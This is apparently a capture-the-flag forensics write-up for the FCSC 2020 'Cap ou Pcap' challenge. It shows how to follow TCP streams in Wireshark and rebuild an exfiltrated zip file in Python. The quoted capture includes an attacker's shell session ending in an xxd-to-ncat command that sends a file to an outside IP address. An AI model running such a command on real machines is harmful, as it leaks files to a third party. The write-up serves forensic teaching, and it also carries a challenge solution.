


# Cap ou Pcap

Link of the challenge: https://hackropole.fr/en/challenges/forensics/fcsc2020-forensics-cap-ou-pcap/

## Description
You are provided with a `cap.pcap` file containing the capture of a file exchange between two machines.
The file contain the flag of the challenge

## Solution 

A `.pcap` file is a capture ot network traffic (see https://en.wikipedia.org/wiki/Pcap). 
To analyze it we can use Wireshark (https://www.wireshark.org/), a free and open-source packet-analyzer. 

Once you open the file in Wireshark you should have something looking like that : 


Each line is a TCP packet exchanged between the machines. You can have more details on each one by selectioning them.  


If you select a packet you'll notice a bracket on the left of the screen, it materialize the TCP sessions. 
You can notice that there is two session captured: 

- **Session 1**: packet 1 to 23 and 32 to 37
- **Session 2**: packet 24 to 31

Let's focus on the stream 1. You can right click on a packet -> Follow -> TCP-Stream. (Or Ctrl-Alt-Shift-T). 


You'll find the following instructions : 

``` sh
id

uid=1001(fcsc) gid=1001(fcsc) groups=1001(fcsc)

pwd

/home/fcsc

w

 07:10:25 up 24 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
fcsc     tty7     :0               06:46   24:47   3.13s  0.00s /bin/sh /etc/xdg/xfce4/xinitrc -- /etc/X11/xinit/xserverrc

ls

Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos

ls Documents

flag.zip

file Documents/flag.zip

Documents/flag.zip: Zip archive data, at least v2.0 to extract

xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
exit
```

While looking at it we see that `flag.zip` is send throught `ncat` in packet 23, which correspond with the start of the stream 2. 
The stream 2 then must contain the output of `xxd -p Documents/flag.zip | tr -d '\n'`. 

When focusing on the second stream we find some raw data, we'll try to convert them back to a zip file. 
The raw data we found are the output of `xxd -p Documents/flag.zip | tr -d '\n'`. The `tr` only remove the newline char, so we can skip it. 
The `xdd -p` transform the content of `flag.zip` into hex (see https://man.archlinux.org/man/xxd.1.en). 
We start by transforming the hex into bytes to retrieve the content of the file then write it on the filesystem. 
``` python
#!/usr/bin/env python3
data = bytes.fromhex("504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000")
with open("flag.zip", "wb") as f:
    f.write(data)
```

You now have a `flag.zip` on your system. You can unzip it to retrieve `flag.txt` that contain the desired flag. 
